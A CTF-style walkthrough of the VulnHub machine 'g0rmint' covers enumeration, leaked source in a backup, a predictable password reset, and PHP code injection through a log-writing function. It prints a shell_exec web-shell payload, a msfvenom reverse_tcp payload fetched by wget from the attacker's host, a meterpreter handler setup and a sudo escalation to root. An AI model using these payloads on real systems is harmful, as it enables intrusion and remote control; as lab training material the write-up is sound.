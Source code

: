 +++
title = "g0rmint"
slug = "g0rmint"
default_language = "en"
[taxonomies]
categories=["vulnhub"]
tags=["vulnerable-machine"]
+++

# g04mint

First off, find the box:

```bash
netdiscover -r 192.168.171.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
192.168.171.138 00:0c:29:1f:ad:4c      1      60  VMware, Inc.
192.168.171.254 00:50:56:fa:32:59      1      60  VMware, Inc.

```

Scan with nmap:

```bash
nmap -T4 -A -oA g0rmint  192.168.171.138
```

Looks like 22 and 80 are open, not a lot to go on...

Accessing the server on port 80 returns a 404 page, better try for a robots.txt and find this:

/* Too easy? Lets see */
Disallow: /g0rmint/*

Now I'm faced with a login page and nothing to go on, however the following showed up in the login page's markup:

```html
<meta name="backup-directory" content="s3cretbackupdirect0ry">
```

Next run dirb to try and find hidden content, nothing really popped up.

I tried fuzzing a bunch of mobile user agents to see if this meta tag somehow triggers a different page response as well as brute forcing the login/reset forms, nothing seemed to be working.

Then I remembered I need to try force browsing that directory now that new file system elements exist:

```bash

dirb http://192.168.171,138/g0rmint/s3crebackupdirect0ry -i -l

```

This found an info.php file which shows backup.zip, lets download that and take a look

A few interesting things here, first the config file has a function for writing PHP files out to the server, and the login page calls this storing the email form field in the generated PHP.

```php

function addlog($log, $reason) {
    $myFile = "s3cr3t-dir3ct0ry-f0r-l0gs/" . date("Y-m-d") . ".php";
    if (file_exists($myFile)) {
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    } else {
        $fh = fopen($myFile, 'w');
        fwrite($fh, file_get_contents("dummy.php") . "<br>\n");
        fclose($fh);
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    }
    fclose($fh);
}

```

Next looking at the register page if we know a legit user/email combination the user's password will be reset to the first 20 characters of a sha1 hash of the current date/time in GMT, which luckily gets printed to the page each time you reload or submit a postback.


After a lot of banging my head I finally learned a vital piece I'm usually missing during enumeration, in this case we need an email.  What I'm finally learning is I should be searching better any time I have a known input, in this case the email can be searched for in all this source code:

```bash

grep -i -r -E -o "\b[a-zA-Z0-9.-]+@[a-zA-Z0-9.-]+\.[a-zA-Z0-9.-]+\b" *
Binary file backup.zip matches
css/font-awesome.min.css:dave@davegandy.com
css/style.css:w3bdrill3r@gmail.com
css/style.css:timeline-left-arrow@2x.png
css/style.css:timeline-right-arrow@2x.png
css/style.css:chat-left@2x.png
css/style.css:chat-right@2x.png
css/style.css:chat-left-metro@2x.png
css/style.css:chat-right-metro@2x.png
css/font-awesome-ie7.min.css:dave@davegandy.com
db.sql:demo@example.com
Binary file img/gallery/photo5.jpg matches
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:dio@std42.ru
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:strogg@yandex.ru
js/jquery.elfinder.min.js:hypweb@gmail.com

```

Now to review all the files, style.css seems like a good starting point, thats usually the place an author or developer would put their CSS for a site/app.

```css

/*
* Author: noman
* Author Email: w3bdrill3r@gmail.com
* Version: 1.0.0
* g0rmint: Bik gai hai
* Copyright: Aunty g0rmint
* www: http://g0rmint.com
* Site managed and developed by author himself
*/

```

Right in plain site, it even states the manager/developer/admin as this person.

Now to get our password, time to generate our hash:

```php

substr(hash('sha1', 'date time string from the page load'), 0, 20);

```

and we have our password.

With the amount of time that elapsed getting this far I had completely forgotten about the addslashes call in config.php which lead to me wasting hours trying to get decent code execution going.  Once I reviewed the code again getting execution was pretty straightforward:

```php

<?php echo shell_exec(base64decode($_GET[cmd])); ?> 

```

as our email and we can start sending commands.

Now to generate a wget command to pull down a reverse_tcp shell:

```bash

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
echo 'wget http://192.168.171.36:8000/shell.php' | base64
d2dldCBodHRwOi8vMTkyLjE2OC4xNzEuMzY6ODAwMC9zaGVsbC5waHAK==
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.171.138 - - [17/Jan/2018 22:32:39] "GET /shell.php HTTP/1.1" 200 -
```

Now to setup metasploit to handle the callback:

```bash

screen -S msf msfconsole

msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > set LHOST 192.168.171.136
LHOST => 192.168.171.136
msf exploit(handler) > set LPORT 4444
LPORT => 4444

set PAYLOAD php/meterpreter/reverse_tcp

```

Then request our webshell, and we have a meterpreter session running.

Once connected I grabbed and ran LinEnum from rebootuser in hopes of finding something juicy.  Once I had the output I started parsing through and searched for vulns in the kernel, mysql, apache. logs, binaries, etc. and having nothing work.  Then took a look around and saw another backup.zip, extract and get this difference:

```sql
INSERT INTO `g0rmint` (`id`, `username`, `email`, `pass`) VALUES
(1, 'noman', 'w3bdrill3r@gmail.com', 'ea60b43e48f3c2de55e4fc89b3da53dc');
```

Then crack the hash and get: tayyab123

Now to try ssh with the g0rmint user in /etc/passwd and get a login, run sudo -l:

```bash
g0rmint@ubuntu:~$ sudo -l
[sudo] password for g0rmint:
Matching Defaults entries for g0rmint on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User g0rmint may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Looks like we're done: 

```bash

g0rmint@ubuntu:~$ sudo su
root@ubuntu:/home/g0rmint# ls /root
flag.txt
root@ubuntu:/home/g0rmint# cat /root/flag.txt
Congrats you did it :)
Give me feedback @nomanriffat
root@ubuntu:/home/g0rmint#

```
